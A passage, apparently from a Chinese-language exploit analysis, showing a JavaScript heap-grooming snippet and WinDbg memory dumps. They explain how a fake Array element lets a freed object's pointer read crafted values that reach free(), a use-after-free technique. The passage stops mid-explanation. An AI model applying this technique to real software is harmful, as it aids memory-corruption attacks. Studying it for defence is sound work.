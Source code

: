 ```
js:
fakelement = new Array(0x10);
fakelement[11] = 0x1a;
fakelement[12] = 0x20000048;

0:000> dd 07e21608 L26
//fakelement_01
07e21608  00000000 0000000d 00000010 00000010
07e21618  00000000 ffffff84 00000000 ffffff84
07e21628  00000000 ffffff84 00000000 ffffff84
07e21638  00000000 ffffff84 00000000 ffffff84
07e21648  00000000 ffffff84 00000000 ffffff84
07e21658  00000000 ffffff84 00000000 ffffff84
07e21668  00000000 ffffff84 0000001a ffffff81
07e21678  20000048 ffffff81 00000000 00000000
07e21688  00000000 00000000 00000000 00000000
07e21698  62334f4b 88000000
//fakelement_02
0:000> dd 07e216a0  L26
07e216a0  00000000 0000000d 00000010 00000010
07e216b0  00000000 ffffff84 00000000 ffffff84
07e216c0  00000000 ffffff84 00000000 ffffff84
07e216d0  00000000 ffffff84 00000000 ffffff84
07e216e0  00000000 ffffff84 00000000 ffffff84
07e216f0  00000000 ffffff84 00000000 ffffff84
07e21700  00000000 ffffff84 0000001a ffffff81
07e21710  20000048 ffffff81 00000000 00000000
07e21720  00000000 00000000 00000000 00000000
07e21730  62334f7e 88000000
```

从相邻的Array对象内存布局可以看出每个Array对象以8个字节的数据隔开，因此当_obj占位于被释放的Array对象时，\_obj[-1]正好访问的是上一个Array对象的0x1a：

```
0:000> dd 06e19250 - 0x30 L30
//_obj[-1]
06e19220  0000001a ffffff81 20000048 ffffff81
06e19230  00000000 00000000 00000000 00000000
06e19240  00000000 00000000 2922eb66 88000000
//_obj[0]
06e19250  00000000 0000000d 00000000 00000000
06e19260  00000000 ffffff84 00000000 ffffff84
06e19270  00000000 ffffff84 00000000 ffffff84
06e19280  00000000 ffffff84 00000000 00000000
06e19290  00000000 ffffff84 00000000 ffffff84
06e192a0  00000000 ffffff84 00000000 ffffff84
06e192b0  00000000 ffffff84 00000000 40000000
06e192c0  20000048 ffffff81 00000000 00000000
06e192d0  00000000 00000000 00000000 00000000
```

接着执行类型转换的函数可以看到当前this指针正好指向_obj[-1]，下断在free函数，传入的参数正是0x20000048：
